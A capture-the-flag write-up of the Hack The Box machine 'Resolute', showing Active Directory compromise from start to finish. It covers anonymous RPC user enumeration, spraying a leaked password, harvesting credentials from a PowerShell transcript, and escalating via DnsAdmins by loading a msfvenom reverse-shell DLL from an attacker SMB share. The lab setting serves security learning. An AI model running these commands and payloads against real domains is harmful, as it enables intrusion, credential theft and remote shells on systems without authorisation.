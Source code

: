 ```yaml
---
layout: post
title: HTB Machine - Resolute
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
share-img: https://www.hackthebox.com/storage/avatars/4c86a642ea237dfde036963e6d182b40.png
tags: [ HTB, Hack the Box, Network,Vulnerability Assessment,Active Directory,Security Tools,Authentication,Metasploit,Reconnaissance,Password Spraying,Weak Credentials,
Clear Text Credentials,Group Membership,Information Disclosure,Anonymous/Guest Access]
---
```


we try to enumerate users and group domains
```bash
rpcclient -U "" 10.10.10.169 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

rpcclient -U "" 10.10.10.169 -N -c "enumdomgroups" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
Enterprise Read-only Domain Controllers
Domain Admins
Domain Users
Domain Guests
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Group Policy Creator Owners
Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsUpdateProxy
Contractors
```
we can check the members of the admin group with the rid and then check who is that member.
```bash
rpcclient -U "" 10.10.10.169 -N -c "querygroupmem 0x200"
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "" 10.10.10.169 -N -c "queryuser 0x1f4"
	(snip) Administrator
```
we try to get a TGT but it is not possible.
```bash
/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt megabank.local/
[-] User Administrator doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ryan doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User marko doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn\'t have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn\'t have UF_DONT_REQUIRE_PREAUTH set
```
There is a password for a user when displaying the info
```bash
rpcclient -U "" 10.10.10.169 -N -c "querydispinfo"
(snip)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
(snip)
```
We try to winrm and smb with the cred marko:Welcome123! but it didnt work so we are going to spray that password to other users and see.
```bash
crackmapexec smb 10.10.10.169 -u users.txt -p Welcome123! --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```
we found valid credentials 
```bash
crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
```
we can winrm with it and find the first flag.
```bash
crackmapexec winrm 10.10.10.169 -u 'melanie' -p 'Welcome123!'
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```
We check privileges, nothing intersting. Check the folders present in users too and there is ryan, but we cannot access the folder. We can check net privileges as well.
```bash
whoami /all
(snip)
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

C:\Users\ryan> dir
Access to the path 'C:\Users\ryan' is denied.

net user melanie
(snip)
Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
(snip)

net user ryan
Local Group Memberships
Global Group memberships     *Domain Users         *Contractors
```
we will need to check what the contractors groups can do. In the meantime if we see around the directories there is nothing that peaks our interest. However we are not able to see all hidden folders, so we need to check for those too and that way we find an interesting folder that is not usually present (PSTranscripts) and a file.
```bash
dir -Force
    Directory: C:\PSTranscripts\20191203
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
the file contains a password for the user ryan.
```bash
ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
validate those credentials with crackmapexec and gain access via winrm. Note: it says that is pwned for some strange reason but the user is not admin. 
```bash
crackmapexec winrm 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)

evil-winrm -i 10.10.10.169 -u 'ryan' -p 'Serv3r4Admin4cc123!'
```
When checking privileges we see the user is part of Dnsadmins group.
```bash
whoami /all
(snip)
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
(snip)
```
Enumerate the groups and check the localgroup and the particular group. With the 3 following commands.
```bash
net group
net localgroup 
net localgroup DnsAdmins
```
same as GTFObins for linux there is LOLBAS for windows. Go to https://lolbas-project.github.io/# website and search for dns. We are gonna run a command in the target that will download a malicious dll, the service will need to be stopped and then started to download. We craft the dll with msfvenom, place our nc listener, and create an smb shared folder. We are going to use rlwrap (install with apt if needed) so we have other features.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o pwned.dll

sudo rlwrap nc -nlvp 443

/home/rickybana/.local/bin/smbserver.py smbFolder $(pwd) -smb2support
```
We are ready then to execute the command and then stop/start the service.
```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\smbFolder\pwned.dll

sc.exe stop dns

sc.exe start dns
```
we should get a console now with privilege access.
```bash
C:\Windows\system32>whoami 
whoami 
nt authority\system
```
